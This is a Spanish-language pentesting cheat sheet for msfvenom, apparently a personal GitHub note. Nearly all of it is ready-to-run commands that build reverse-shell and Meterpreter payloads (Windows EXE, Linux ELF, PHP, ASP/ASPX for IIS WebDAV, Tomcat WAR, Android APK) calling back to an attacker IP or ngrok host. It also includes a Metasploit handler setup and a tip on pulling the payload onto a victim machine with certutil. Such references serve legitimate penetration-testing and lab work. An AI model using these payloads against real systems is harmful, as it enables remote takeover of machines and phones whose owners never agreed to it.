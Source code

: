 # Msfvenom 

Tags: #Msfvenom #WebDav #Tomcat 

Msfconsole: Es una utilidad de línea de comando que puede ser usada para generar y encodear payloads MSF para varios sistemas operativos, así, como servidores web. Es la combinación de dos utilidades: Msfpayload y Msfencode. Podemos utilizar Msfvenom para generar payloads maliciosos en Meterpreter que pueden ser transferidos al sistema del cliente. Una vez ejecutados, harán una conexión a nuestro payload handler y nos proveerá un acceso remoto al sistema target.  

### Windows Meterpreter

* [MsfVenom-Payload](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura

❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f exe > shell.exe
```
### Linux Meterpreter

```bash 
# Esto funciona cuando tenemos el usuario y passwd de un usuario normal

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f elf > hola.elf

	# p = Payload
	# f = Formato
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
```

## PHP Meterpreter

```bash 
❯ msfvenom -p php/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=4444 -f raw > cmd.php 

# Recibir la revershell con Metasploit
❯ msfconsole -q 
❯ use exploit/multi/handler
	❯ options 
	❯ set payload php/meterpreter/reverse_tcp
	❯ set LHOST 172.0.0.1
	❯ set LPORT 4444
	❯ run 
```

## IIS - WebDAV

```bash 
# Estos archivos son el equivalente de un archivo cmd.php en un servidor Apache de Linux que te crean una Revershell. Para los aspx/asp funcionan como una Revershell pero para un IIS en Windows.

❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.1 LPORT=443 -f aspx -o reverse.aspx    # Stageless 
	# Si la maquina no es x64, podemos quitar esa parte en el payload y convertirla a x86
	# Recibiremos la Revershell con 'Netcat'

❯ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.1 LPORT=443 -f exe -o reverse.exe  # Stageless  
	# Recibiremos la Revershell con 'Metasploit' usando el modulo de 'multi_handler' y nos dara una consola con 'Meterpreter'
	# Esta Revershell la transferiremos desde nuestra maquina de atacante con python3 y en la maquina victima lo descargaremos con 'Certutil.exe' en el dir 'C:\Users\Public\Downloads' para despues ejecutarlo y obtener la Revershell
	# En 'Metasploit' cuando usamos el 'multi_handler' debemos de cambiar al 'Payload' que colocamos en el comando 
	# Esto lo hacemos en las maquinas Windows  
	

❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.68.1 LPORT=443 -f asp > shell.asp
	# p = PLayload 
	# f = Formato

❯ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.68.1 LPORT=443 -f aspx > shell.aspx
```
## Tomcat 

```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

## Android APK

```bash 
❯ msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=14015 -o msf.apk

	# p = Payload 
	# LHOST = Dominio de Ngrok
	# LPORT = Puerto de Ngrok (Se encuentra en el dominio de Ngrok)
	# o = Exportar como un 'APK'
```